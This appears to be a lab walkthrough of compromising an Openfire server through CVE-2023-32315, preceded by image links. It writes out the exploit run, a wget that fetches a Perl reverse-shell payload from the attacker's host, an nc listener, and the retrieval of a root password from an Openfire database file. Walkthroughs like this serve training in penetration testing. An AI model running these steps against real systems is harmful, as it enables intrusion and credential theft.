








We start by enumerating the machine with Nmap and finding port 9090 and 9091 open. We visit the ports with our browser to find an Openfire login page.
 If we google the version disclosed on this page, we find that the service is vulnerable to a directory traversal attack that allows us to create a controlled admin account, which in turn leads to RCE by uploading a malicious plugin to the site. We run the exploit to install the malicious plugin to the site. git clone https://github.com/miko550/CVE-2023-32315 python3 CVE-2023-32315.py -t https://192.168.245.96:9091  We visit the "management tool" section of the website to access the malicious plugin.  We see that we can now run OS commands remotely.  We then leverage the RCE vulnerability to obtain a reverse shell on our machine. python3 -m http.server 9091 wget http://192.168.45.239:9091/p.pl -O /tmp/p1.pl rlwrap nc -lvnp 9091 perl /tmp/p1.pl   After some enumeration, we find the root password in the configuration file located at /var/lib/openfire/embedded-db/openfire.script.  su root 